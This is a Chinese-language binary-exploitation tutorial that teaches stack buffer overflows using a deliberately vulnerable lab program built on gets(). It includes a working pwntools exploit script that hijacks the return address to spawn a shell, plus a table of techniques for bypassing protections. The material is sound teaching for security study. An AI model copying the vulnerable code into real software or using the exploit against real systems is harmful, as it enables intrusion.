


## 案例一：经典栈溢出——从入门到Exploit

栈溢出（Stack Buffer Overflow）是二进制安全领域最经典的漏洞类型，也是每一个安全研究者必须掌握的第一课。本案例将从零开始，通过一个精心设计的靶场程序，完整演示如何发现栈溢出漏洞、理解其底层原理、并编写一个真正能拿到 shell 的 Exploit。

### 为什么从栈溢出开始

在所有内存安全漏洞中，栈溢出具有以下教学价值：

- **原理清晰**：栈的结构是线性的，溢出方向是确定的，入门门槛最低
- **历史悠久**：1988 年 Morris Worm 就利用了 fingerd 的栈溢出，至今仍是 CTF 入门必考
- **触类旁通**：理解了栈溢出，再去学堆溢出、格式化字符串、ROP 等都会事半功倍
- **防御对照**：现代系统的所有安全保护（Canary、NX、PIE、ASLR）都是针对栈溢出设计的，理解攻击才能理解防御

### 知识预备

在开始实操之前，请确保你已具备以下基础：

| 前置知识 | 最低要求 | 推荐水平 |
|----------|----------|----------|
| C 语言 | 能读懂简单代码 | 理解指针、数组、函数调用 |
| 汇编基础 | 知道寄存器名称 | 能读懂 x86-64 常见指令 |
| Linux 操作 | 会用终端 | 熟悉 gcc、gdb 基本用制 |
| Python | 能运行脚本 | 会用 bytes 和 struct 模块 |

如果你对汇编还不熟悉，建议先回头阅读本章前面的汇编基础章节。

---

### 目标程序分析

我们使用以下靶场程序作为目标：

```c
// vuln1.c
#include <stdio.h>
#include <string.h>

void win() {
    printf("恭喜！你成功利用了栈溢出漏洞！\n");
    system("/bin/sh");
}

void vuln() {
    char buffer[64];
    printf("请输入密码: ");
    gets(buffer);  // 危险函数
    printf("你输入的是: %s\n", buffer);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

#### 逐行解读

| 行 | 代码 | 分析 |
|----|------|------|
| 6 | `void win()` | 目标函数——我们希望控制程序跳转到这里执行 |
| 7 | `system("/bin/sh")` | 执行 shell，一旦到达这里就获得了系统控制权 |
| 11 | `char buffer[64]` | 在栈上分配 64 字节的缓冲区，这是溢出的"容器" |
| 13 | `gets(buffer)` | **罪魁祸首**——`gets()` 不检查输入长度，可以写入任意多字节 |
| 17 | `setvbuf(stdout, NULL, _IONBF, 0)` | 关闭 stdout 缓冲，确保 printf 立即输出（靶场常见写法） |

#### 关于 gets() 的危险性

`gets()` 是 C 标准库中最危险的函数之一，它从 stdin 读取一行直到遇到换行符或 EOF，但**完全不检查目标缓冲区的大小**。正因为如此：

- C99 标准将其标记为"过时"（deprecated）
- C11 标准正式将其移除
- GCC 编译时会发出警告：`the 'gets' function is dangerous and should not be used.`

但现实中，大量遗留代码仍在使用 `gets()` 及其变体，理解其危害依然有实际意义。

---

### 栈内存布局：溢出是如何发生的

要理解栈溢出，必须先理解函数调用时栈帧的布局。以下是 x86-64 架构下的典型栈帧结构：



#### 溢出过程的 4 个阶段

**阶段 1：正常调用**

当 `main()` 调用 `vuln()` 时，CPU 自动执行：
1. 将返回地址（`main` 中 `vuln()` 调用之后的下一条指令地址）压栈
2. 将当前 RBP 值压栈（保存调用者的栈帧指针）
3. 将 RSP 减去 72 字节（64 字节 buffer + 对齐填充），为局部变量分配空间

此时栈的布局（从高地址到低地址）：

```text
高地址
┌─────────────────────┐
│    返回地址 (8B)     │  ← vuln() 执行 ret 时会跳到这里
├─────────────────────┤
│    saved RBP (8B)    │  ← 保存的帧指针
├─────────────────────┤
│                     │
│   buffer[64] (64B)  │  ← gets() 写入位置
│                     │
└─────────────────────┘
低地址 (RSP 指向这里)
```

**阶段 2：正常输入**

用户输入少于 64 字节的内容（如 "hello"），`gets()` 将其写入 buffer，一切正常。

**阶段 3：溢出发生**

用户输入超过 64 字节的内容。`gets()` 不会停止，继续往高地址方向写入：
- 第 65-72 字节：覆盖 saved RBP（导致函数返回后栈帧错乱，但程序可能不会立即崩溃）
- 第 73-80 字节：覆盖返回地址（**关键！** `vuln()` 执行 `ret` 指令时会跳转到这个地址）

**阶段 4：控制流劫持**

`vuln()` 函数执行完毕，CPU 执行 `ret` 指令，从栈上弹出返回地址并跳转。由于返回地址已被我们覆盖为 `win()` 的地址，程序跳转到 `win()`，执行 `system("/bin/sh")`。

#### 用数字精确说明

在 x86-64 Linux 上（GCC 默认对齐），一个典型栈帧的字节偏移：

| 偏移量 | 内容 | 字节数 |
|--------|------|--------|
| RSP+0 ~ RSP+63 | buffer[64] | 64 |
| RSP+64 ~ RSP+71 | saved RBP | 8 |
| RSP+72 ~ RSP+79 | **返回地址** | 8 |

所以构造 payload 的公式就是：

```text
payload = 'A' × 64 (填满 buffer)
        + 'B' × 8  (覆盖 saved RBP，用垃圾数据即可)
        + win() 地址 (覆盖返回地址)
```

总填充长度 = 64 + 8 = **72 字节**，之后紧跟 8 字节的目标地址。

---

### 实战：从编译到 Exploit

#### Step 1：编译目标程序

```bash
gcc -g -fno-stack-protector -no-pie -z execstack -o vuln1 vuln1.c
```

编译选项详解：

| 选项 | 作用 | 为什么需要 |
|------|------|------------|
| `-g` | 保留调试信息 | 方便 GDB 调试，可查看源码和变量名 |
| `-fno-stack-protector` | 禁用栈保护（Stack Canary） | 有 Canary 时溢出会触发 `__stack_chk_fail`，程序直接终止 |
| `-no-pie` | 禁用地址随机化（PIE） | 让代码段地址固定，`win()` 的地址每次运行都一样 |
| `-z execstack` | 标记栈为可执行 | 虽然本案例不往栈上执行 shellcode，但关闭 NX 更接近"裸奔"状态 |

> **为什么分步关闭保护？** 真实漏洞利用中，你需要逐个绕过这些保护机制。这里先全部关掉，让你专注于理解溢出本身。后续案例会逐步开启保护，演示绕过技术。

#### Step 2：验证保护已关闭

```bash
checksec --file=vuln1
```

预期输出：

```text
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

逐项解读：

- **No RELRO**：GOT 表可写（后续高级利用可能用到）
- **No canary**：栈上没有金丝雀值，溢出不会被检测到
- **NX disabled**：栈上的数据可以被执行（可以放 shellcode）
- **No PIE**：代码段基址固定为 `0x400000`，函数地址不变
- **RWX segments**：存在可读可写可执行的内存段

如果输出中有 `canary found` 或 `PIE enabled`，说明编译选项没有生效，请检查命令。

#### Step 3：获取 win() 函数地址

有多种方式获取 `win()` 的地址：

```bash
# 方法1：objdump 反汇编
objdump -d vuln1 | grep '<win>'
# 输出类似：0000000000401156 <win>:

# 方法2：readelf 符号表
readelf -s vuln1 | grep win
# 输出类似：    42: 0000000000401156    47 FUNC    GLOBAL DEFAULT   14 win

# 方法3：GDB 中查看
gdb -q vuln1 -ex 'p win' -ex 'quit'
# 输出类似：$1 = {<text variable, no debug info>} 0x401156 <win>
```

在 `-no-pie` 模式下，`win()` 的地址是固定的（如 `0x401156`）。如果开启了 PIE，每次运行地址都会不同，需要额外的信息泄露步骤。

#### Step 4：确认栈帧大小（用 GDB 验证）

理论计算可能因编译器优化而不准，用 GDB 实测是最可靠的：

```bash
gdb -q ./vuln1
```

```gdb
# 在 vuln 函数入口下断点
(gdb) b vuln
(gdb) r

# 查看栈帧布局
(gdb) info frame
# 注意看 saved rip 和 buffer 的偏移

# 直接查看 RSP 和 buffer 的距离
(gdb) p &buffer
# 假设输出：$1 = (char (*)[64]) 0x7fffffffe380
(gdb) info registers rsp
# 假设输出：rsp 0x7fffffffe370

# 更直接的方法：查看 saved rip 的位置
(gdb) x/20gx $rsp
# 找到从 buffer 起始地址到 saved rip 的距离

# 或者直接在 gets 调用前后观察
(gdb) b *vuln+<gets调用指令偏移>
(gdb) c
# 输入 80 个 'A'
# 查看 saved rip 是否被覆盖
(gdb) x/gx $rbp+8
# 如果输出 0x4141414141414141，说明从 buffer 到返回地址的距离就是你输入的字节数
```

#### Step 5：编写 Exploit

使用 pwntools 编写攻击脚本：

```python
#!/usr/bin/env python3
"""
exploit_vuln1.py - 栈溢出利用脚本
靶场：vuln1 (栈溢出 → 跳转 win 函数)
"""

from pwn import *

# ============ 配置 ============
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'  # 改为 'debug' 可看到完整交互

# ============ 加载目标 ============
elf = ELF('./vuln1')
win_addr = elf.symbols['win']
log.info(f"win() 地址: {hex(win_addr)}")

# ============ 构造 Payload ============
offset = 72  # 64 (buffer) + 8 (saved RBP)
payload = b'A' * offset    # 填充
payload += p64(win_addr)   # 覆盖返回地址

log.info(f"Payload 长度: {len(payload)} 字节")
log.info(f"Payload 十六进制: {payload.hex()}")

# ============ 发起攻击 ============
p = process('./vuln1')
p.sendline(payload)
p.interactive()  # 切换到交互模式，此时应该已经拿到 shell
```

#### Step 6：运行 Exploit

```bash
chmod +x exploit_vuln1.py
python3 exploit_vuln1.py
```

成功输出示例：

```bash
[*] '/tmp/vuln1'
    Arch:     amd64-64-little
[*] win() 地址: 0x401156
[*] Payload 长度: 80 字节
[+] Starting local process './vuln1': pid 12345
请输入密码: 恭喜！你成功利用了栈溢出漏洞！
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ whoami
user
```

拿到 `$` 提示符意味着你已经获得了 shell 控制权。

---

### 完整利用流程图



---

### 调试技巧：当 Exploit 不工作时

#### 问题 1：程序直接崩溃（Segmentation Fault）

原因：偏移量不对，返回地址没有覆盖到正确位置。

排查方法：

```bash
# 用 pattern 精确确定偏移量
python3 -c "from pwn import *; print(cyclic(100))" | ./vuln1

# 用 GDB 查看崩溃时的 RIP
gdb -q ./vuln1 -ex 'r <<< "$(python3 -c \"from pwn import *; print(cyclic(100))\")"' -ex 'p/x $rip' -ex 'quit'

# 计算偏移量
python3 -c "from pwn import *; print(cyclic_find(<崩溃地址的后4字节小端序>))"
```

#### 问题 2：程序正常返回但没有跳转到 win()

原因：win() 的地址不正确，或者大小端序搞错了。

排查方法：

```python
# 确认地址是否正确
from pwn import *
elf = ELF('./vuln1')
addr = elf.symbols['win']
print(f"地址: {hex(addr)}")
print(f"p64 编码: {p64(addr).hex()}")  # 检查字节序

# 常见错误：手动输入地址时写反了字节序
# 正确：0x401156 → \x56\x11\x40\x00\x00\x00\x00\x00 (小端序)
# 错误：\x00\x00\x00\x00\x40\x11\x56 (大端序)
```

#### 问题 3：输入被截断

原因：`gets()` 遇到换行符 `\n`（0x0a）会停止读取。如果地址中包含 `0x0a` 字节，payload 会被截断。

排查方法：

```python
# 检查地址是否包含坏字符
addr = p64(win_addr)
if b'\n' in addr or b'\x00' in addr:
    log.warning("地址中包含坏字符！")
    # \x00 对 gets() 不影响（gets 遇到 \n 才停）
    # \x0a 会导致 gets 提前终止，需要换一种利用方式
```

#### 问题 4：开了 Canary 后溢出失败

这是预期行为。如果忘记加 `-fno-stack-protector`，Canary 会在函数返回前检查栈是否被篡改：

```text
*** stack smashing detected ***: terminated
```

解决：确保编译时加了 `-fno-stack-protector`。

---

### 进阶思考

#### 1. 如果没有 win() 函数怎么办

在真实的漏洞利用中，目标程序里通常不会有一个方便的 `win()` 函数。替代方案包括：

| 技术 | 难度 | 原理 |
|------|------|------|
| Return-to-libc | 中等 | 跳转到 `system("/bin/sh")`，利用 libc 中的函数 |
| ROP（Return-Oriented Programming） | 较高 | 拼接程序中已有的代码片段（gadgets） |
| Shellcode 注入 | 较低 | 往栈上注入机器码并跳转执行（需要 NX 关闭） |

#### 2. 64 位 vs 32 位的区别

本案例使用 64 位程序。32 位程序有以下差异：

| 对比项 | 32 位 (x86) | 64 位 (x86-64) |
|--------|-------------|----------------|
| 地址大小 | 4 字节 | 8 字节 |
| 参数传递 | 全部通过栈 | 前 6 个通过寄存器 (rdi, rsi, rdx, rcx, r8, r9) |
| 返回地址偏移 | buffer + saved_ebp(4B) | buffer + saved_rbp(8B) + 对齐 |
| p 函数 | `p32()` | `p64()` |
| 常见填充对齐 | 4 字节对齐 | 16 字节对齐（栈对齐要求） |

> **栈对齐注意**：x86-64 要求调用 `call` 指令前 RSP 是 16 字节对齐的。在 ROP 中，有时需要多填充 8 字节（ret gadget）来修正对齐。本案例跳转到 `win()` 函数，编译器生成的代码会自动处理对齐，所以不需要额外处理。

#### 3. 安全保护机制总览

以下是你在后续案例中会遇到的所有保护机制，以及对应的绕过方法：

| 保护机制 | 开启方式 | 作用 | 绕过技术 |
|----------|----------|------|----------|
| Stack Canary | `-fstack-protector` | 在栈帧中插入随机值，溢出时检测 | 泄露 Canary、格式化字符串泄露、爆破（fork 模式） |
| NX (DEP) | `-z noexecstack` | 标记栈为不可执行 | ROP、Return-to-libc |
| PIE | `-pie` | 代码段地址随机化 | 信息泄露获取基址 |
| ASLR | 系统级 `/proc/sys/kernel/randomize_va_space` | 堆、栈、libc 地址随机化 | 信息泄露、部分覆写 |
| RELRO (Full) | `-Wl,-z,relro,-z,now` | GOT 表只读 | 不能直接改 GOT，需要其他方法 |
| Shadow Stack (CET) | CPU 硬件支持 | 硬件级返回地址保护 | 极难绕过，需要信息泄露+精确控制 |

---

### 练习题

完成以下练习，巩固所学知识：

**练习 1：修改偏移量**
将 buffer 大小改为 128 字节，重新编译并编写 Exploit。

**练习 2：改用 shellcode**
不跳转 `win()`，而是往栈上注入 `execve("/bin/sh")` 的 shellcode（需要 `-z execstack`）。

**练习 3：32 位版本**
将程序编译为 32 位（`gcc -m32`），重新分析栈帧并编写 Exploit。

**练习 4：GDB 全程跟踪**
用 GDB 单步跟踪 `gets()` 调用到 `ret` 指令的全过程，观察寄存器和内存的变化。

---

### 本案例关键知识点回顾

1. **`gets()` 等不检查长度的函数是栈溢出的根源**，永远不要在生产代码中使用
2. **栈溢出的本质是覆盖返回地址**，让 CPU 跳转到攻击者指定的位置
3. **payload 构造公式**：`padding + saved_rbp + target_address`
4. **偏移量必须精确**，多一个字节或少一个字节都会失败
5. **`checksec` 是你的第一件武器**，拿到二进制文件后第一件事就是检查保护
6. **GDB 是最可靠的验证工具**，理论计算需要实际验证
7. **关闭保护是为了学习**，真实环境中你需要逐个绕过这些保护

### 参考资源

- **CTF Wiki - 栈溢出**：https://ctf-wiki.org/pwn/linux/stackoverflow/
- **LiveOverflow 二进制利用系列**：YouTube 上最好的入门视频教程之一
- **"Hacking: The Art of Exploitation"**（第 2 版）：Jon Erickson 著，栈溢出的经典教材
- **pwntools 文档**：https://docs.pwntools.com/ — 本案例使用的利用框架
- **"程序员的自我修养"**：深入理解链接、装载与库，帮你理解 ELF 和地址
